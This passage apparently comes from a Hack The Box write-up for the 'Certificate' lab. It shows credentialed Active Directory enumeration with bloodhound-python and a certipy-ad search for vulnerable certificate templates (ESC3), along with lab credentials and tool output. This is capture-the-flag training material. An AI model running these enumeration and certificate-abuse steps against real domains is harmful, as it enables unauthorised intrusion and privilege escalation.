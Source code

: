 We can also Bloodhound this account
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ bloodhound-python -u Lion.SK -p '!QAZ2wsx' -k -d certificate.htb -ns 10.10.11.71 -c ALl --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: certificate.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.certificate.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 3 computers
INFO: Connecting to LDAP server: dc01.certificate.htb
INFO: Found 19 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: WS-05.certificate.htb
INFO: Querying computer: WS-01.certificate.htb
INFO: Querying computer: DC01.certificate.htb
INFO: Done in 01M 37S
INFO: Compressing output into 20250721154853_bloodhound.zip
```
![](images/Pasted%20image%2020250721155230.png)
Group `DOMAIN CRA MANAGERS` seems interesting here, but nothing be linked to that
# ESC3
So I would use `certipy-ad` to help us check some vulnerable cases:
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ certipy-ad find  -u lion.sk -p '!QAZ2wsx' -dc-ip 10.10.11.71 -vulnerable
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 18 issuance policies
[*] Found 0 OIDs linked to templates
```